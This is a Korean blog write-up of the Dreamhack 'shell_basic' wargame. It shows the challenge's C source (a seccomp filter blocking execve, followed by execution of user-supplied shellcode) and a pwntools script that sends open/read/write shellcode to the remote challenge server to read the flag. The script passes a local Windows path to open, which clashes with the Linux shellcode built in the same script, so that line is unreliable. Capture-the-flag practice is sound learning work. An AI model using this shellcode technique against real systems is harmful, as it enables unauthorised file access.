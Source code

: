 ```yaml
---
layout: single
title:  "Wargame : shell_basic"
categories: 정보보안
tag: [python, pwn, hacking]
toc: true
author_profile: true
---
```


<head>
  <style>
    table.dataframe {
      white-space: normal;
      width: 100%;
      height: 240px;
      display: block;
      overflow: auto;
      font-family: Arial, sans-serif;
      font-size: 0.9rem;
      line-height: 20px;
      text-align: center;
      border: 0px !important;
    }

    table.dataframe th {
      text-align: center;
      font-weight: bold;
      padding: 8px;
    }

    table.dataframe td {
      text-align: center;
      padding: 8px;
    }

    table.dataframe tr:hover {
      background: #b8d1f3; 
    }

    .output_prompt {
      overflow: auto;
      font-size: 0.9rem;
      line-height: 1.45;
      border-radius: 0.3rem;
      -webkit-overflow-scrolling: touch;
      padding: 0.8rem;
      margin-top: 0;
      margin-bottom: 15px;
      font: 1rem Consolas, "Liberation Mono", Menlo, Courier, monospace;
      color: $code-text-color;
      border: solid 1px $border-color;
      border-radius: 0.3rem;
      word-break: normal;
      white-space: pre;
    }

  .dataframe tbody tr th:only-of-type {
      vertical-align: middle;
  }

  .dataframe tbody tr th {
      vertical-align: top;
  }

  .dataframe thead th {
      text-align: center !important;
      padding: 8px;
  }

  .page__content p {
      margin: 0 0 0px !important;
  }

  .page__content p > strong {
    font-size: 0.8rem !important;
  }

  </style>
</head>


### C 코드 분석


```c

#include <fcntl.h>

#include <seccomp.h>

#include <stdio.h>

#include <stdlib.h>

#include <string.h>

#include <sys/prctl.h>

#include <unistd.h>

#include <sys/mman.h>

#include <signal.h>



void alarm_handler() {

    puts("TIME OUT");

    exit(-1);

}



void init() {

    setvbuf(stdin, NULL, _IONBF, 0);

    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);

    alarm(10);

}



void banned_execve() {

  scmp_filter_ctx ctx;

  ctx = seccomp_init(SCMP_ACT_ALLOW);

  if (ctx == NULL) {

    exit(0);

  }

  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);

  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);



  seccomp_load(ctx);

}



void main(int argc, char *argv[]) {

  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   

  void (*sc)();

  

  init();

  

  banned_execve();



  printf("shellcode: ");

  read(0, shellcode, 0x1000);



  sc = (void *)shellcode;

  sc();

}

```


#### init() 함수 분석


입출력 버퍼를 비활성화 및 시간 초과를 검사한다.



위에서 정의하였던 alarm_handler()함수를 이용하여 10초 타이머를 설정한다.


#### banned_execve() 함수 분석


seccomp 필터 초기화 후, execve()함수와 execveat()함수를 차단하는 규칙을 지정한다.


#### main() 함수 분석


mmap함수로, 메모리를 할당한 다음, 사용자로부터 쉘 코드를 입력받아 할당된 메모리에 저장한다.



여기서 쉘 코드는 포인터로 변환되어 호출된다.



banned_execve()함수에서 execve()함수와 execveat()함수를 차단하였기 때문에 일반적인 경로와 인자를 지정하여 프로그램을 실행할 수 없다.


### pwn 코드 작성


```python

from pwn import *



p = remote('host3.dreamhack.games', 18037)

# 원격 서버를 대상으로 익스플로잇을 진행 → remote() 함수 사욛



context.arch = 'amd64'

# 익스플로잇 대상 아키텍쳐는 amd64



payload = ''

payload += shellcraft.open('C:/Users/dst78/Downloads/shell_basic/flag_name_is_loooooong')

payload += shellcraft.read('rax', 'rsp', 100)

payload += shellcraft.write(1, 'rsp', 100)

# 페이로드를 문제에서 지정한 경로로 지정

# 스켈레톤 코드는 open, read, write 순서이므로 해당 순서를 따라 코드 작성

# 파일의 위치는 문제에서 지정하였으므로 바로 open

# read 함수는 rax에 저장된 정보를 통해 syscall을 수행, rsp스택의 시작주소 기입, 크기는 상관 x

# write 또한 마찬가지로 작성



p.sendline(asm(payload))

p.interactive()

```

![image.png](https://github.com/lIllIlIIIll/Leeinformation.github.io/blob/master/_posts/image/shell_basic_shellcode.png?raw=true)

